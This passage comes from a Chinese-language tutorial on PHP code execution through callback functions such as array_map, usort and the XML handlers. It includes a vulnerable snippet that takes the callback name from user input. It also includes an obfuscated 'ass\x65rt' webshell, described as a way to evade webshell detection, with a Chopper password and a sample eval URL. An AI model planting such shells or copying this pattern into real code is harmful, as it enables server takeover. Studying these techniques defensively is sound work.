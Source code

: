 1. 断言这个功能应该只被用来调试
2. 你应该用于完整性检查时测试条件是否始终应该为 TRUE
3. 来指示某些程序错误
4. 或者检查具体功能的存在(类似扩展函数或特定的系统限制和功能)

### 0x17: 数组映射(xxx\_map)类型函数的处理后回调机制导致的代码执行

array\_map — 将回调函数作用到给定数组的单元上

```php
array_map()
usort(),            　　　　　　uasort(),            　　　　uksort()
array_filter()
array_reduce()
array_diff_uassoc(),        　array_diff_ukey()
array_udiff(),            　　array_udiff_assoc(),        array_udiff_uassoc()
array_intersect_assoc(),    　array_intersect_uassoc()
array_uintersect(),        　array_uintersect_assoc(),    array_uintersect_uassoc()
array_walk(),            　　array_walk_recursive()

<?php
    $evil_callback = $_GET['callback'];
    $some_array = array(0, 1, 2, 3);
    $new_array = array_map($evil_callback, $some_array);
?>
# http://localhost/shell/index.php?callback=phpinfo
```

XML的解析也同样存在这个的映射回调问题

```php
xml_set_character_data_handler()
xml_set_default_handler()
xml_set_element_handler()
xml_set_end_namespace_decl_handler()
xml_set_external_entity_ref_handler()
xml_set_notation_decl_handler()
xml_set_processing_instruction_handler()
xml_set_start_namespace_decl_handler()
xml_set_unparsed_entity_decl_handler()


stream_filter_register()
set_error_handler()
register_shutdown_function()
register_tick_function()
```

我们可以利用array\_map的这个特点，将第一个参数(回调函数)作为命令执行管道，第二个参数(callback参数)作为payload传入，从而构将传统的函数调用(payload)的模式转换为array\_map(指令执行，payload)，从而躲避WEBSHELL检测机制

```php
<?php 
    $new_array = array_map("ass\x65rt", (array)$_REQUEST['op']);
?>
//http://localhost/test/test.php?op=eval($_GET[1]): 菜刀密码: 1
```
